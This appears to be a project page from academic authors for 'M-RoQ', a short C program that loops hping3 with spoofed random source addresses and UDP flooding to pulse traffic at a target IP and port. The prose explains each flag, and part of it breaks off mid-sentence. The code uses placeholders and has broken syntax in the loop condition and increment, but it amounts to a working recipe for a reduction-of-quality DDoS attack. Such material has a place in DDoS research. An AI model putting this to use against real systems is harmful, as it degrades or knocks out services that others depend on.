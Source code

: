 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h><br>
#include <string.h><br>
#include <stdlib.h><br>
#include <time.h><br>
#include <unistd.h><br>
<br>
main()<br>
{<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while(<time in seconds>)<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;usleep(<time in miliseconds>);<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;time in seconds++;<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("killall -9 hping3");<br>
}<br>

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.<br>
<br>
Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process.<br> 
<br>
Authors:<br>
Vinícius de Miranda Rios<br>
Pedro R. M. Inácio<br>
Damien Magoni<br>
Mário M. Freire<br>
